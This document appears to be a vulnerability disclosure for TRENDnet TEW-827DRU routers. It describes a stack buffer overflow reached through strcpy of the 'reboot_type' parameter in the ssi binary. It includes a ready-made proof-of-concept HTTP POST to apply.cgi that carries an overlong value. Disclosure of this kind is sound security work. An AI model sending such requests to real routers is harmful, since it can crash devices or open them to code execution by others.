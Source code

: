 # TEW-827DRU
## Firmware version
TEW-827DRU devices through 2.06B04
## description
TRENDnet TEW-827DRU devices through 2.06B04 contain a stack-based buffer overflow in the ssi binary. The overflow allows an authenticated user to execute arbitrary code by POSTing to apply.cgi via the action wizard_ipv6 with a sufficiently long reboot_type key.
## detail
The bug in function 0x434590, binary www/cgi/ssi
The parameter 'reboot_type' pass to strcpy
![send_log_email](send_log_email.png)

## Send package
```txt
POST /apply.cgi HTTP/1.1
Host: 192.168.1.1
Accept: */*
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 300

action=wizard_ipv6&reboot_type=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```
